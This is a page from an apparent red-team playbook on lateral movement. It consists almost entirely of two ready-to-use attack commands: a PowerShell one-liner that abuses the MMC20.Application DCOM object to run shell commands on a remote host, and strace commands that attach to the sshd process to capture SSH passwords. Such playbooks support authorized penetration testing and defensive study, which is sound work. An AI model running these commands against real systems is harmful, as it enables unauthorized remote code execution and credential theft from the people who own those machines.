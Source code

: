 # 4.4 Lateral Movement

## Table of Contents

- [Lateral Movement via DCOM](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.1-Post-Exploitation.md#Lateral-Movement-via-DCOM)
- [Sniffing SSH Passwords](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.1-Post-Exploitation.md#Sniffing-SSH-Passwords)

## Lateral Movement via DCOM

```c
"$a=[System.Activator]::CreateInstance([type]::GetTypeFromProgID('MMC20.Application.1','<RHOST>'));$a.Document.ActiveView.ExecuteShellCommand('cmd',$null,'/c echo <TEXT> > C:\<FILE>.txt','7')"
```

## Sniffing SSH Passwords

```c
$ pgrep -l sshd
6235 sshd
$ strace -f -p 6235 -e trace=write -o capture
```

### Previous

- [4 Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4-Exploitation.md)
- [4.1 Defense Evasion](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.1-Defense-Evasion.md)
- [4.2 Credential Dumping](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.2-Credential-Dumping.md)
- [4.3 Privilege Escalation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.3-Privilege-Escalation.md)

### Next

- [5 Installation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5-Installation.md)
- [5.1 Persistence](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.1-Persistence.md)
- [5.2 Situational Awareness](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/5.2-Situational-Awareness.md)
